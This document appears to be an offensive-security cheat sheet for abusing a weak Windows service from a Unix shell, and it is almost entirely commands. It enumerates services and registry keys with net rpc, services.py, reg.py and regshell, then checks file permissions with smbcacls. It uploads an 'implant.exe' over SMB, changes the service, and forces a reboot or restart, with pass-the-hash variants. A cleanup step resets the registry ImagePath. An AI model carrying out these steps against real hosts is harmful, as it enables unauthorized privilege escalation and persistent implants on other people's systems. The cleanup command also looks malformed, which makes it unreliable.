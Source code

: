 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ net rpc service list -U "<username>%<password>" -S <IP>

$ net rpc service status <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> list

$ services.py "<username>":"<password>"@<IP> config -name <service>

$ services.py "<username>":"<password>"@<IP> status -name <service>
```

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

$ net rpc registry enumerate "HKLM\SYSTEM\CurrentControlSet\Services\RegSvc" -U "<username>%<password>" -S <IP>

$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\RegSvc"
```

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/Program Files/Insecure Registry Service/insecureregistryservice.exe"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/Program Files/Insecure Registry Service/insecureregistryservice.exe"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

```
$ services.py "<username>":"<password>"@<IP> change -name <service>
```

### 2.1 - Automatic service

Reboot the system.

```
$ net rpc shutdown -t 0 -r -U "[<domain>/]<username>%<password>" -S <IP>

$ net rpc shutdown -t 0 -r -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 2.2 - Manual service

```
$ net rpc service stop <service> -U "<username>%<password>" -S <IP>

$ net rpc service start <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> stop -name <service>

$ services.py "<username>":"<password>"@<IP> start -name <service>
```

## 03 - Cleanup

```
$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\RegSvc" -v ImagePath -vt REG_EXPAND_SZ -vd "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
```